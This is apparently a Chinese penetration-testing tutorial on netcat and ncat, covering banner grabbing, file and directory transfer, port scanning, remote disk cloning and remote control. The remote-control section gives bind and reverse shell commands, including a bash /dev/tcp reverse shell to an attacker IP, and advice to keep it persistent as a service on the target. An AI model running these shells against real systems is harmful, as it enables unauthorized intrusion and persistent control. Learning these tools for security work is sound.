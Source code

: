 ```yaml
---
title: 工具 - netcat使用
categories:
- 渗透测试
tags:
- 渗透测试
- nc
abbrlink: 13625
date: 2020-03-15 15:35:40
---
```




# netcat使用


## 简介
- 侦听模式/传输模式
- 可以替代telent  / 获取banner信息
- 传输文本信息
- 传输文件/目录
- 加密传输文件
- 远程控制/木马
- 加密所有流量
- 流媒体服务器
- 远程克隆硬盘


## 基本用法
####  <font color=red>1. 实现telnet / banner</font>
```bash
# 题外话:追踪路由
mtr 114.114.114.114 

## nc作为客户端：
# 参数 -v  显示详细信息 
# 参数  -n  如果是域名,不进行域名解析(建议直接跟ip地址)
nc -nv 1.1.1.1 110   # 连接pop3服务器，可以看到banner信息（可以进行user登录[base64编码],输入指令）
nc -nv 1.1.1.1 25    # smtp服务器
nc -nv 1.1.1.1 80    # 探测80端口(都可进行交互的命令)

```

####  <font color=red>2.传输文本信息</font>
```bash
# 可以做聊天用
# 一台作为服务端    -l 监听, -p 端口
nc -l -p 4444
# 另一台作为客户端去连接服务端
nc -nv 1.1.1.1 4444

```
![](https://image.geoer.cn/nc_use.png)

###### 用途：
**远程电子取证** (原则:尽可能少修改被审计系统的状态，避免影响证据)
就可以用`nc`来操作:
我的电脑: `nc -l -p 3333`  监听
被审计系统:`ls -l | nc -nv 1.1.1.1 3333` 输出到我的电脑

我的电脑: `nc -l -p 3333 > ps.txt`   输出结果重定向到文件
被审计系统:`ps -ef | nc -nv 1.1.1.1 3333 -q 1`    参数-q: 输出完成之后过1秒就断开

题外话：`lsof` 查看已经打开的文件



####  <font color=red>3.传输文件/目录</font>
###### 传输文件
```bash
# 客户端向服务端传输  （正向） 
A： nc-lp 3333 > 1.mp4
B:  nc -nv 1.1.1.1 3333 < 1.mp4 -q 1
# 或者, 服务端向客户端传输文件  （反向）
A:  nc -q 1 -lp 3333 < a.mp4
B:  nc -nv 1.1.1.1 3333 > 2.mp4
```

###### 传输目录
```bash
# 正向(服务端先打包再传给客户端,注意小横线别遗漏)
A:  tar -cvf - music/ | nc -lp 3333 -q 1
B:  nc -nv 1.1.1.1 3333 | tar -xvf -     # 先接收再解包
```

###### 加密传文件
```bash
A： nc -lp 3333 | mcrypt --flush -Fbqd -a rijndael-256-m ecb > 1.mp4     # 接收，解密
B： mcrypt --fulsh -Fbq -a rijndael-256-m ecb < a.mp4 | nc 1.1.1.1 3333 -q 1   # 加密，传送
# 需要输入加密秘钥，解密秘钥
# 不是nc的加密功能，是操作系统的加密命令，可以自行安装
```

#### <font color=red>4.流媒体</font>
```bash
#把视频流输出到B端
A:  cat 1.mp4 | nc -lp 3333
B:  nc -nv 1.1.1.1 3333 | mplayer -vo x11 -cache 3000 -
#接收视频流，输出给指定播放器和缓存进行播放
```

#### <font color=red>5.端口扫描</font>
>以客户端角色
```bash
#并非擅长端口扫描
#参数 -z 扫描参数，只判断是否开放（默认tcp）
nc -nvz 1.1.1.1 1-65535
#参数 -u  扫描udp服务的端口 （不太准确）
nc -nvzu 1.1.1.1 1-1024
```

#### <font color=red>6.远程克隆硬盘</font>
**远程电子取证**，可以将目标服务器硬盘远程复制(`块`级别的备份,`磁盘磁道的状态原原本本的复制`)，或者内存(内存中运行的病毒进程)
```bash
A:  nc -lp 3333 | dd of=/dev/sda
B:  dd -if=/dev/sda | nc -nv 1.1.1.1 3333 -q 1
```

####  <font color=red>7.远程控制</font>
参数: -c 
**正向：**   目标机器作为服务端监听, 把bash传给我
```bash
A:  nc -lp 3333 -c bash   #目标机器
B:  nc 1.1.1.1 3333
```
**反向：**    我的机器作为服务端, 让目标机器作为客户端主动连接我(客户端把bash传给服务器端)
```bash
A:  nc -lvp 3333       
B:  nc 1.1.1.1 3333 -c bash    #目标机器

#假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
目标机器： bash -i >& /dev/tcp/192.168.41.133/2223 0>&1
攻击方： nc -lvvp 2223
```

>Note: Windows用户把bash改为cmd

> 反向连接用的多， 因为好多都限制进入的流量而不太多限制出去的流量(根据他允许的端口调整,比如dns)

> 长久维持会话： 写成脚本作为系统服务，让目标机器已启动就连接我



## ncat 命令
<font color=red> **nc缺陷：**</font>
- nc缺乏加密能力：是数据是明文传输（容易被别人嗅探）
- 缺乏身份验证能力：端口如果一直向外开放，容易被他人连接窃取当做肉鸡
- 不同系统/平台的nc参数功能不尽相同（自己 -h 查看帮助文档和测试）

<font color=red> **ncat 命令**</font>
是包含在nmap工具包中里面的一个东西(弥补了nc缺乏加密和身份验证的不足)

正向连接：
```bash
#先进行了秘钥交换和加密
#被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
```

## 其他
... ...


